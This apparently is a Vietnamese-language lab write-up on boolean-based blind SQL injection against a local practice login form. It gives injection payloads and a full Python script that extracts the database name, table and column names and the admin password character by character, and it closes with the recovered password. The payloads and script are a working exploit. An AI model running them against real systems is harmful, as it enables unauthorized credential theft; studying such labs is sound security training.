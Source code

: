 ## Boolean Based SQLi

`Description:` 1 form đăng nhập với `username` và `password`:

![image](https://user-images.githubusercontent.com/92881216/220998149-9c1298bc-30f6-4f75-b033-57325355bf51.png)

Đầu tiên test với giá trị bật kỳ và nhận được `incorrect!`, sau đó em thử với `a' or '1'='1` và nhận được `correct!!!`.

Như vậy dù không dump được ra dữ liệu quan trọng nào nhưng có thể xác định được payload đúng hay sai dựa vào web content.

<img src="https://user-images.githubusercontent.com/92881216/220999000-278703c4-b71e-40e8-b083-28859d4391a5.png" width=500px /> <img src="https://user-images.githubusercontent.com/92881216/220998908-4cfcaab0-29b5-4f41-aa80-706e5f4f752a.png" width=500px />

**Khai thác:**

- Xác định database:
  - Xác định độ dài tên db: payload `1' or (length(database()))=i; -- -` với i là độ dài và xem thông báo trả về.
  - Xác định tên db khi biết độ dài: payload `1' or substr((select database()),i,1)='j'; -- -` với thứ tự i ứng với ký tự j
- Xác đinh bảng khi biết db:
  - Xác đinh độ dài tên bảng: payload `1' or (SELECT length(table_name) FROM information_schema.tables WHERE table_schema = '{db}')=i  -- -` với i là độ dài
  - Xác định tên bảng: payload `1' or substr((SELECT table_name FROM information_schema.tables WHERE table_schema = '{db}'),i,1)='j'; -- -` với i là thứ tự ứng với ký tự j.
- Xác định cột khi biết bảng:
  - Xác định độ dài cột: payload `1' or (select length(column_name) from information_schema.columns where table_name='{table_name}')=i  -- -`.
  - Xác định tên cột: payload `1' or substr((select column_name from information_schema.columns where table_name='{table_name}'),i,1)='j'; -- -`.
- Xác địn password: 
  - Xác định độ dài password: payload `1' or (SELECT length(password) from {table_name} WHERE username = 0x61646d696e)={}  -- -`  (0x61646d696e giải mã hex là 'admin')
  - Xác định password: payload `1' or substr((SELECT password from {table_name} WHERE username = 0x61646d696e),i,1)='j'; -- -`.

`Script:` (Ở đây em thêm limit do có nhiều bảng, cột và điều chỉnh số dòng cần lấy qua limit cho đúng bảng, cột để khai thác)
```
import requests
import string
LETTERS=string.ascii_lowercase+string.ascii_uppercase+string.digits+'_'+'|'
url = "http://localhost:8080/kcsc/task3/boolean_based_sqli/"

db_length=0
for i in range(1,31):
    data= {
        'username' : "1' or (length(database()))={}; -- -".format(i),
        'password' : "test"   
    }
    res= requests.post(url, data=data)
    if 'correct!!!' in res.text:
        print(i)
        db_length=i
        break

db_name=''    
for i in range(1,db_length+1):
    for j in LETTERS:
        data= {
        'username' : "1' or substr((select database()),{},1)='{}'; -- -".format(i,j),
        'password' : "test"   
        }
        res= requests.post(url, data=data)
        if 'correct!!!' in res.text:
            db_name+=j
            print('db_name: ',db_name)
            break

table_length=0
for i in range(1,30):
    data= {
        'username' : "1' or (SELECT length(table_name) FROM information_schema.tables WHERE table_schema = '{}' limit 1 ,2)={}  -- -".format(db_name,i),
        'password' : "test"   
    }
    res= requests.post(url, data=data)
    if 'correct!!!' in res.text:
        print(i)
        table_length=i
        break

table_name=''    
for i in range(1,table_length+1):
    for j in LETTERS:
        data= {
        'username' : "1' or substr((SELECT table_name FROM information_schema.tables WHERE table_schema = '{}' limit 1 ,2),{},1)='{}'; -- -".format(db_name,i,j),
        'password' : "test"   
        }
        res= requests.post(url, data=data)
        if 'correct!!!' in res.text:
            table_name+=j
            print('tables_name: ',table_name)
            break

column_length=0
for i in range(1,30):
    data= {
        'username' : "1' or (select length(column_name) from information_schema.columns where table_name='{}' limit 2,1)={}  -- -".format(table_name,i),
        'password' : "test"   
    }
    res= requests.post(url, data=data)
    if 'correct!!!' in res.text:
        print(i)
        column_length=i
        break

column_name=''    
for i in range(1,column_length+1):
    for j in LETTERS:
        data= {
        'username' : "1' or substr((select column_name from information_schema.columns where table_name='{}' limit 2,1),{},1)='{}'; -- -".format(table_name,i,j),
        'password' : "test"   
        }
        res= requests.post(url, data=data)
        if 'correct!!!' in res.text:
            column_name+=j
            print('column_name: ',column_name)
            break

pw_length=0
for i in range(1,30):
    data= {
        'username' : "1' or (SELECT length(password) from {} WHERE username = 0x61646d696e)={}  -- -".format(table_name,i),
        'password' : "test"   
    }
    res= requests.post(url, data=data)
    if 'correct!!!' in res.text:
        print(i)
        pw_length=i
        break

pw=''    
for i in range(1,pw_length+1):
    for j in LETTERS:
        data= {
        'username' : "1' or substr((SELECT password from {} WHERE username = 0x61646d696e),{},1)='{}'; -- -".format(table_name,i,j),
        'password' : "test"   
        }
        res= requests.post(url, data=data)
        if 'correct!!!' in res.text:
            pw+=j
            print('pw: ',pw)
            break
```

Kết quả: 

![image](https://user-images.githubusercontent.com/92881216/221003277-d91bb8ed-640e-4278-a0af-4eedb5f50126.png)


> password admin: `the_admin_password`
